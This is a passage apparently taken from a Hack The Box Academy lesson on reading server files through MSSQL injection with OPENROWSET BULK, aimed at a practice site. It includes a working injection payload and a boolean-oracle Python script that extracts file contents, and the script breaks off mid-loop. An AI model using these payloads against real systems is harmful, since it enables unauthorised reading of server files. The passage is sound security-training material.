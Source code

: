 If we have the correct permissions, we can `read files` via an `(MS)SQL injection`. To do so we can use the [OPENROWSET](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql?view=sql-server-ver16) function with a `bulk` operation.

![](https://academy.hackthebox.com/storage/modules/177/amdonuts/17.png)

The syntax looks like this. `SINGLE_CLOB` means the input will be stored as a `varchar`, other options are `SINGLE_BLOB` which stores data as `varbinary`, and `SINGLE_NCLOB` which uses `nvarchar`.

```sql
-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

```

## Checking Permissions

All users can use `OPENROWSET`, but using `BULK` operations requires special privileges, specifically either `ADMINISTER BULK OPERATIONS` or `ADMINISTER DATABASE BULK OPERATIONS`. We can check if our user has these with the following query:

```sql
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';

```

We'll be using `Aunt Maria's Donuts` again to practice in this section. We can run the query above like this:

```sql
maria' AND (SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS')>0;--

```

Which should return the following response from the server:

![](https://academy.hackthebox.com/storage/modules/177/amdonuts/19.png)

## Reading via Boolean-based

Having confirmed that we have the necessary permissions, we can adapt the script we wrote in that section to dump file contents out by changing the queries being sent to the oracle.

```python
file_path = 'C:\\Windows\\System32\\flag.txt' # Target file

# Get the length of the file contents
length = 1
while not oracle(f"(SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x)={length}"):
    length += 1
print(f"[*] File length = {length}")

# Dump the file's contents
print("[*] File = ", end='')
for i in range(1, length + 1):
    low = 0
    high = 127
    while low <= high:
        mid = (low + high) // 2
        if oracle(f"(SELECT ASCII(SUBSTRING(BulkColumn,{i},1)) FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x) BETWEEN {low} AND {mid}"):
```